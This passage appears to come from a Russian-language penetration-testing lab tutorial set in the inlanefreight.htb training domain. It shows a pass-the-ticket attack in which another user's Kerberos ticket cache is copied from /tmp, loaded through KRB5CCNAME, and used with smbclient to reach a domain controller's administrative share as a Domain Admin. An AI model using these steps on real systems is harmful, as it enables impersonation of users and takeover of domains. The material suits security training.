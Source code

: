 ```shell-session
```

Есть один пользователь ( julio@inlanefreight.htb ), к которому мы еще не получили доступ. Мы можем подтвердить группы, к которым он принадлежит, используя `id`.

#### Идентификация членства в группе с помощью команды id

Идентификация членства в группе с помощью команды id

```shell-session
root@linux01:~# id julio@inlanefreight.htb

uid=647401106(julio@inlanefreight.htb) gid=647400513(domain users@inlanefreight.htb) groups=647400513(domain users@inlanefreight.htb),647400512(domain admins@inlanefreight.htb),647400572(denied rodc password replication group@inlanefreight.htb)
```

Хулио является членом `Domain Admins`группа. Мы можем попытаться выдать себя за пользователя и получить доступ к `DC01`Хост контроллера домена.

Чтобы использовать файл ccache, мы можем скопировать файл ccache и назначить путь к файлу `KRB5CCNAME`переменная.

#### Импорт файла ccache в нашу текущую сессию

Импорт файла ccache в нашу текущую сессию

```shell-session
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
root@linux01:~# klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass
  $Recycle.Bin                      DHS        0  Wed Oct  6 17:31:14 2021
  Config.Msi                        DHS        0  Wed Oct  6 14:26:27 2021
  Documents and Settings          DHSrn        0  Wed Oct  6 20:38:04 2021
  john                                D        0  Mon Jul 18 13:19:50 2022
  julio                               D        0  Mon Jul 18 13:54:02 2022
  pagefile.sys                      AHS 738197504  Thu Oct  6 21:32:44 2022
  PerfLogs                            D        0  Fri Feb 25 16:20:48 2022
  Program Files                      DR        0  Wed Oct  6 20:50:50 2021
  Program Files (x86)                 D        0  Mon Jul 18 16:00:35 2022
  ProgramData                       DHn        0  Fri Aug 19 12:18:42 2022
  SharedFolder                        D        0  Thu Oct  6 14:46:20 2022
  System Volume Information         DHS        0  Wed Jul 13 19:01:52 2022
  tools                               D        0  Thu Sep 22 18:19:04 2022
  Users                              DR        0  Thu Oct  6 11:46:05 2022
  Windows                             D        0  Wed Oct  5 13:20:00 2022

                7706623 blocks of size 4096. 4447612 blocks available
```
